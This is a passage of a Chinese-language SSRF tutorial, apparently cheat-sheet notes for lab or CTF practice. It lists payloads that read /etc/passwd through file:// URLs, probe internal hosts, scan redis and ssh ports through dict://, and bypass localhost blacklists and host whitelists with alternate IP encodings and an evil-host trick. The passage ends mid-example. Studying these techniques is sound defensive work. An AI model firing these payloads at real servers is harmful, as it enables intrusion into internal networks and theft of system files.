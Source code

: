 由于单向性，盲目 SSRF 漏洞的影响通常低于完全知情的 SSRF 漏洞。不能轻易利用它们从后端系统检索敏感数据，尽管在某些情况下可以利用它们来实现完全远程代码执行。

### 4. 读取服务器文件

```shell
ssrf.php?url=file:///etc/passwd
ssrf.php?url=file:///var/www/html/flag.php
```

### 5. 探测内网存活主机 (http/s 协议)

```shell
ssrf.php?url=http://192.168.52.1
ssrf.php?url=http://192.168.52.6
ssrf.php?url=http://192.168.52.25
......
```

### 6. 扫描内网端口（http/s和dict协议）

```shell
ssrf.php?url=dict://192.168.52.131:6379/info   // redis
ssrf.php?url=dict://192.168.52.131:80/info     // http
ssrf.php?url=dict://192.168.52.130:22/info   // ssh
```

## 绕过

### 1. 基于黑名单的输入过滤器的 SSRF

某些应用程序会阻止包含主机名（如`127.0.0.1`和`localhost`）或敏感 URL（如`/admin`. 在这种情况下，您通常可以使用各种技术来绕过过滤器

*   使用 的替代 IP 表示形式`127.0.0.1`，例如`2130706433`、`017700000001`或`127.1`。

    ```shell
    http://localhost/         # localhost就是代指127.0.0.1
    http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
    http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
    http://[::]:80/           # 在liunx下可用，window测试了下不行
    http://127。0。0。1/       # 用中文句号绕过
    http://①②⑦.⓪.⓪.①
    http://127.1/
    http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
    ```
* 注册您自己的解析为`127.0.0.1`. 您可以`spoofed.burpcollaborator.net`用于此目的。
* 使用 URL 编码或大小写变体混淆被阻止的字符串。

### 2. 基于白名单的输入过滤器的 SSRF

一些应用程序只允许输入匹配、开头或包含允许值的白名单。在这种情况下，您有时可以利用 URL 解析中的不一致来绕过过滤器。

*   `@`您可以使用字符 在主机名之前的 URL 中嵌入凭据。例如：

    ```shell
    https://expected-host@evil-host

